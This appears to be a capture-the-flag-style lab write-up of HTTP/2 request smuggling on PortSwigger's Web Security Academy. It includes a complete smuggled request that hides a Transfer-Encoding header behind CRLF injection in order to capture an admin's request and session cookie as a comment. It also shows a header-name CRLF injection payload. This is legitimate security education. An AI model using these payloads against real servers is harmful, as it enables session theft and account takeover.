 And we send our norm req (which is another random GET req) afterwards and we see that request smuggling doesn't work
This is likely due to the fact that the frontend server stripps away `Transfer-Encoding` header

So we try to hide `Transfer-Encoding` header behind CRLF via Inspector > headers > add new header e.g. Foo: Bar and press `Shift + Return` (Note that this feature is not available when you double-click on the header) and add `Transfer-Encoding: chunked`
The req is now kettled

Now let's try to steal admin's request
There's a post new comment endpoint, and we want to use it, to post the admin's req as a body of a new comment. So the attack req becomes:
```bash
POST / HTTP/2
Host: 0ad700e5047a6d618036e4ef00c60065.web-security-academy.net
Foo: Bar\r\nTransfer-Encoding: chunked # this is done via inspector > headers

0

POST /post/comment HTTP/1.1
Host: 0ad700e5047a6d618036e4ef00c60065.web-security-academy.net
Cookie: session=stZZQj4oriCtBaszMVTWJmWKBlquimfI
Content-Length: 950

csrf=I0fOZPzC1aRidkGCozA9mdGgI3QKS0hi&postId=5&name=ff&email=ff%40ff.com&website=http%3A%2F%2Fff.com&comment=
```

Wait 15 seconds and admin posts a comment with their cookie

### HTTP/2-exclusive vectors
Due to the fact that HTTP/2 is a binary protocol rather than text-based, there are a number of potential vectors that are impossible to construct in HTTP/1 due to the limitations of its syntax.

We've already seen how you can inject CRLF sequences into a header value. In this section, we'll give you an idea of some of the other HTTP/2-exclusive vectors you can use to inject payloads. Although these kinds of requests are officially prohibited by the HTTP/2 specification, some servers fail to validate and block them effectively. 

> Note:
>
> It's only possible to perform these attacks using the [specialized HTTP/2 features](https://portswigger.net/burp/documentation/desktop/http2/performing-http2-exclusive-attacks) in Burp's Inspector panel. 

### Injecting via header names
In HTTP/1, it's not possible for a header name to contain a colon because this character is used to indicate the end of the name to parsers. This is not the case in HTTP/2.

By combining colons with \r\n characters, you may be able to use an HTTP/2 header's name field to sneak other headers past front-end filters. These will then be interpreted as separate headers on the back-end once the request is rewritten using HTTP/1 syntax:

Front-end (HTTP/2)
```bash
foo: bar\r\nTransfer-Encoding: chunked\r\nX: 	ignore
```

